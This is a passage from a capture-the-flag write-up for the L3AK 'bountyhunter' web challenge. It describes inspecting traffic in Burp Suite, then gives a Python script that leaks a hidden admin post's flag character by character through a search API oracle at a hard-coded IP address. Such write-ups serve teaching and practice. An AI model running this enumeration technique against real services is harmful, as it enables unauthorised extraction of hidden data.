We can try to guess what this challenge is all about.  

Furthermore, we can check the actual request and the response sent by the server via `burpsuite`.  

<br/> 
<img src="/Screenshots_L3AK/bountyhunter_screenhots/Pasted image 20250715105938.png" alt="1" style="width:700px; height:auto;">
<br/>  

The real `flag` should be leaked from the post with `ID 3`. The author is the `admin`. We can guess that the post wit `ID 4` is only a fake one :)) .  

We can try to enumerate and leak the flag character by character, manually, or just write a python script to `l3ak` ;))  it out.  

```python
import requests
import string

url = "http://34.134.162.213:17000/api/search"
charset = ''.join(c for c in string.printable if c not in string.whitespace)
flag_prefix = "L3AK{L"
known = flag_prefix

def check(query):
    json_data = {"query": query}
    r = requests.post(url, json=json_data)
    return "Well luckily the content of the flag is hidden so here it is:" in r.text

while True:
    found = False
    print(f"\n[.] Trying to find next char after: {known}")

    for c in charset:
        attempt = known[-2:] + c  # last 2 known + candidate = 3-char sliding window
        print(f"[-] Testing: {attempt}")

        if check(attempt):
            known += c
            print(f"[+] Found next char: {c} => {known}")
            found = True
            break

    if not found:
        print("[!] No match found, stopping.")
        break

    if known.endswith("}"):
        print(f"[✓] Flag fully recovered: {known}")
        break
```

We get the `flag`.  

